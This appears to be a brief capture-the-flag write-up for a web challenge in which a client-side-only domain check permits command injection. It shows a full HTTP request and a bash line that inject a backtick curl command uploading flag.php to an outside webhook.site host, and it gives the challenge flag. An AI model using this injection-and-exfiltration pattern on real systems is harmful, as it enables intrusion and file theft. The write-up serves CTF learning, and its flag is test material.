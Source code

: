 ```yaml
---
ai_date: 2025-04-27 05:25:36
ai_summary: Client-side domain validation allows command injection, exploiting with 'curl' to retrieve the flag.
ai_tags:
  - xss
  - cmd-inj
  - rce
created: 2025-03-01T22:11
points: 50
solves: 17
updated: 2025-07-14T09:46
---
```


Domain validity check is done client-side, we can just inject a command directly.

```http
POST /?domain=google.com HTTP/1.1
Content-Length: 111
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:56410

domain=%60curl+-F+%22file%3D%40flag.php%22+https%3A%2F%2Fwebhook.site%2F9ae7c07b-30e6-41f3-8f59-b44b0d7a58ef%60
```

The command is this.

```bash
`curl -F "file=@flag.php" https://webhook.site/9ae7c07b-30e6-41f3-8f59-b44b0d7a58ef`
```

```php
This content is hidden :))
<?php

// ATHACKCTF{c0mm4nd_Inj3ecti0ns_4re_5c4ry}
```

```flag
ATHACKCTF{c0mm4nd_Inj3ecti0ns_4re_5c4ry}
```